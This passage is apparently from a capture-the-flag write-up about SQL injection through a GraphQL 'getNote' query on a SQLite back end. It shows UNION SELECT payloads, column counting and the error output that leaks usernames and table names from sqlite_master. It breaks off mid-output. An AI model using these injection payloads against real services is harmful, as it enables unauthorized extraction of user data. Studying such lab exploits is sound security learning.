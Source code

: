 Note that at first I just had **uuid,username* and got an error that the UNION must have the same number of columns as the original query.

So, I added ,3 and still got the error.  Then I added ,3,4 and it worked.  That tells us the original query must have 4 columns.

The above query returns:

```
{
  "errors": [
    {
      "message": "Received incompatible instance \"(1, 'pop_eax', 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"(2, 'admin', 3, 4)\"."
    }
  ],
  "data": {
    "getNote": [
      null,
      null
    ]
  }
}
```

Since we added two more "unusual" rows onto their query results, I'm guessing the code tried to parse those results and decided they didn't fit the "shape" they were expecting and so they generated this error.

That's fine with us since the error surfaces all the data we wanted.

We learned there are two users: pop_eax and admin

From past CTFs, I've learned that sqlite has a magic table called **sqlite_master** that you can query which will list all of the table names.  Let's try that:

```
query{
  getNote(q: "' union select name,2,3,4 from sqlite_master; --"){
    uuid
    title
    body
    authorId
    id
  }
}
```

Notice we're again appending dummy values just to ensure we have four columns.

```
{
  "errors": [
    {
      "message": "Received incompatible instance \"('Notes', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('ix_Notes_title', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('ix_users_username', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('users', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('العلم', 2, 3, 4)\"."
```